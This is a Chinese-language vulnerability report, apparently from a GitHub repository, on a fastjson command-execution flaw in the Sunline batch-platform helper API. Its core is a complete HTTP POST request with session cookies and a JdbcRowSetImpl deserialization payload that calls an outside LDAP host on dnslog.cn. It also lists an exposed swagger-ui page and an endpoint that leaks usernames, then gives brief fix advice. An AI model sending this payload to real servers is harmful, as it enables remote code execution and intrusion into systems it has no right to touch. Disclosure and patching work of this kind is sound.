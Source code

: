 # sunline

长亮sunline跑批平台助手接口存在fastjson命令执行漏洞

漏洞地址：

https://xxxxxxx/loader/api/uiAuth/login

https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞

![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)

POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1

Host: xxxxxx.com.ph

Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; 

JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Referer: https://xxxxxxx.com.ph/

Content-Type: application/json

If-Modified-Since: 0

Content-Length: 129

Origin: https://xxxxxxx.com.ph

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

Pragma: no-cache

Cache-Control: no-cache

Te: trailers

Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题

https://xxxxxxx.com.ph/swagger-ui.html

![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)

https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名

![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：3.1.1_m25

![image](https://github.com/ranhn/Sunline/assets/107679328/a5810124-ca66-4005-9289-66f746900be1)


修复建议：

1、升级到最新版本。

2、接口敏感信息文档做鉴权。

